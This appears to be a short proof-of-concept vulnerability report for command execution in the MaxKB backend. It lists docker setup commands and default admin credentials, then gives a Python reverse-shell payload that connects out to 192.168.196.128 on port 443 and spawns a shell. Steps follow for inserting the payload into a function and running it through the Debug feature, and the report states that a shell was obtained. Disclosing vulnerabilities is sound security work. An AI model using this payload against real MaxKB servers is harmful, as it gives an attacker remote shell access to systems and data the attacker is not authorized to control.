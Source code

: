 

**Maxkb Command Execution in Backend**

**Setup:**

```bash
# On Linux Machine
docker run -d --name=maxkb --restart=always -p 8080:8080 -v ~/.maxkb:/var/lib/postgresql/data -v ~/.python-packages:/opt/maxkb/app/sandbox/python-packages cr2.fit2cloud.com/1panel/maxkb

# On Windows Machine
docker run -d --name=maxkb --restart=always -p 8080:8080 -v C:/maxkb:/var/lib/postgresql/data -v C:/python-packages:/opt/maxkb/app/sandbox/python-packages cr2.fit2cloud.com/1panel/maxkb

# Username: admin
# Password: MaxKB@123..
```

**Payload:**

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.196.128",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```

**Steps:**

1. Navigate to the "Function Library."
2. Click "Create Function."
3. Insert the payload into the function.
4. Click "Debug" and execute the function.

![image](https://github.com/user-attachments/assets/30a517cf-1a56-436e-b7a5-cebd7b9c7150)


**Result:**
A reverse shell was successfully obtained.

![image](https://github.com/user-attachments/assets/fe66d79b-c24b-4b04-8c67-61051feb85f7)
